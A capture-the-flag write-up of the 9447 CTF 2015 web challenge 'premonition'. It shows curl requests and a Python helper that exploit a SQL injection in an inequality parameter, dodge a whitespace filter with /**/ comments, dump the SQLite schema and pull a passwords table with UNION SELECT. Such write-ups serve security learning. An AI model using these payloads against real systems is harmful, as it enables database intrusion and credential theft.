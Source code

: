 # 9447 CTF 2015 2015: premonition

**Category:** Web
**Points:** 140
**Solves:** 121
**Description:**

>  There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?
> 
> 
>  Find the page at <http://premonition-p8l05mpz.9447.plumbing:9447>


## Write-up

We got an angular.js app that fetches data via a REST API. We identified the following
valid URLs. 
```
curl "http://premonition-p8l05mpz.9447.plumbing:9447/
    /firstname" -d "firstname=X"
    /lastname" -d "lastname=X"
    /class" -d "class=X"
    /score" -d "score=0&ineq=>"
    /date_birth" -d "date_birth=0&ineq=>"
```
They all give back json data. To shorten the following curl commands:
```
url="http://premonition-p8l05mpz.9447.plumbing:9447/score"
```

We sent the following request, which returns us no results
```
$ curl "$url" -d "score=0&ineq=<"
[]
```
But if we put an extra `'` in there... something strange happens
```
$ curl "$url" -d  "score=0'&ineq=<"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"], ["Ingeborg", "Dunham", 93.0, "5D"], ["Layne", "Agrawal", 94.0, "5K"], ["Kai", "Nathanson", 94.0, "5A"], ["Catharine", "Mcnally", 92.0, "5J"], ["Jeromy", "Duncanson", 92.0, "5D"], ["Lewis", "Oglesbee", 93.0, "5K"], ["Terri", "Colombo", 94.0, "5A"], ["Geraldo", "Penson", 93.0, "5J"], ["Rachael", "Ackermann", 92.0, "5D"], ["Winford", "Hendley", 93.0, "5K"], ["Nella", "Avila", 95.0, "5A"], ["Albertine", "Walmsley", 91.0, "5J"], ["Tyson", "Jefferies", 93.0, "5D"], ["Beulah", "Kaba", 95.0, "5K"], ["Kendra", "Fettig", 94.0, "5A"], ["Kathie", "Bieker", 94.0, "5J"], ["Sharon", "Martelli", 93.0, "5D"], ["Eusebio", "Champagne", 92.0, "5K"], ["Roni", "Neuberger", 93.0, "5A"], ["Kristopher", "Haber", 92.0, "5J"], ["Rubin", "Puryear", 94.0, "5D"], ["Edwina", "June", 95.0, "5K"], ["Imogene", "Burmeister", 91.0, "5A"], ["Jonell", "Dark", 95.0, "5J"], ["Awilda", "Oler", 95.0, "5D"], ["Delbert", "Heminger", 92.0, "5K"], ["Marina", "Lombardi", 93.0, "5A"], ["Katharyn", "Veselka", 92.0, "5J"]]
```
OK so maybe we have some kind of injection vulnerability in the database backend.
Next we tried the `ineq` parameter:
```
$ curl "$url" -d "score=0'&ineq=x"
{"user": "sqliteadmin@localhost", "error": "near \"x\": syntax error"}
```
Oh how nice it seems to be sqlite in the background. And apparently the inequality
operator is just inserted into the raw statement. The score parameter on the other
hand seems to be bound using `?`, like in prepared statements.
```
$ curl "$url" -d "score=95&ineq=<>--x"
```
Gives us an error but 
```
$ curl "$url" -d "score=95&ineq=<>?--x"
```
works just fine. We can also see that whitespace are filtered. So we cannot do something like
```
$ curl "$url" -d "score=100&ineq=>? or 1=1--x"
```
which will result in an error. But then I remebered a neat trick about how to bypass this common
restriction using C-style comments:
```
$ curl "$url" -d "score=100&ineq=>?/**/or/**/1=1--x"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"],  ....
```
Yay we get a list of all students :D So we have a full blown SQL injection.
To make things easier I created a small python function for doing the injections:
```
def inject(x):
    x = x.replace(" ", "/**/")
    print("Injecting: '{}'".format(x))
    resp = requests.post("http://premonition-p8l05mpz.9447.plumbing:9447/score",
                         data={"score": 100, "ineq": x})
    return resp.content
```
Note that `score > 100` will not any results, so we won't get any results from the normal
part of the query.

First thing we managed to dump the schema of the sqlite database:
```
schema = inject(">? union select name, sql, 0, name from sqlite_master--x")
print("got schema:")
schema = json.loads(schema)
for x in schema:
    print("table", x[0], "created with:\n", x[1])
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/name,/**/sql,/**/0,/**/name/**/from/**/sqlite_master--x'
got schema:
table s3ekr17_passwords created with:
 CREATE TABLE s3ekr17_passwords(
	userid real,
	password text
)
table students created with:
 CREATE TABLE students(
	userid real,
	firstname text,
	lastname text,
	score real,
	teacher real,
	class text,
	date_birth date,
	date_death date
)
```

So the flag is probably in the `s3ekr17_passwords` table. We can just get the contents using
a union select. Turns out each of the passwords of the users was a part of the flag and the
userid was the position of the character. So we just appended an `order by` and joined the
flag by parsing the json output.
```
x = inject(">? union select password, password, userid, password from s3ekr17_passwords order by userid--x")
print(x)
data = json.loads(x)
flag = "".join(x[0] for x in data)
print("the flag is:")
print(flag)
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/password,/**/password,/**/userid,/**/password/**/from/**/s3ekr17_passwords/**/order/**/by/**/userid--x'
[["9", "9", 0.0, "9"], ["4", "4", 1.0, "4"], ["4", "4", 2.0, "4"], ["7", "7", 3.0, "7"], ["{", "{", 4.0, "{"], ["u", "u", 5.0, "u"], ["S", "S", 6.0, "S"], ["e", "e", 7.0, "e"], ["r", "r", 8.0, "r"], ["A", "A", 9.0, "A"], ["g", "g", 10.0, "g"], ["e", "e", 11.0, "e"], ["n", "n", 12.0, "n"], ["T", "T", 13.0, "T"], ["s", "s", 14.0, "s"], ["_", "_", 15.0, "_"], ["a", "a", 16.0, "a"], ["N", "N", 17.0, "N"], ["d", "d", 18.0, "d"], ["_", "_", 19.0, "_"], ["s", "s", 20.0, "s"], ["p", "p", 21.0, "p"], ["a", "a", 22.0, "a"], ["C", "C", 23.0, "C"], ["e", "e", 24.0, "e"], ["s", "s", 25.0, "s"], ["_", "_", 26.0, "_"], ["a", "a", 27.0, "a"], ["R", "R", 28.0, "R"], ["e", "e", 29.0, "e"], ["_", "_", 30.0, "_"], ["p", "p", 31.0, "p"], ["e", "e", 32.0, "e"], ["a", "a", 33.0, "a"], ["s", "s", 34.0, "s"], ["A", "A", 35.0, "A"], ["n", "n", 36.0, "n"], ["t", "t", 37.0, "t"], ["_", "_", 38.0, "_"], ["R", "R", 39.0, "R"], ["a", "a", 40.0, "a"], ["c", "c", 41.0, "c"], ["E", "E", 42.0, "E"], ["s", "s", 43.0, "s"], ["}", "}", 44.0, "}"]]

the flag is:
9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}
````

## Other write-ups and resources

* <http://mumei.strangled.net/post/3> (spanish)
* <https://github.com/pwning/public-writeup/tree/master/9447ctf2015/web140-premonition>
* <https://asciinema.org/a/30878>
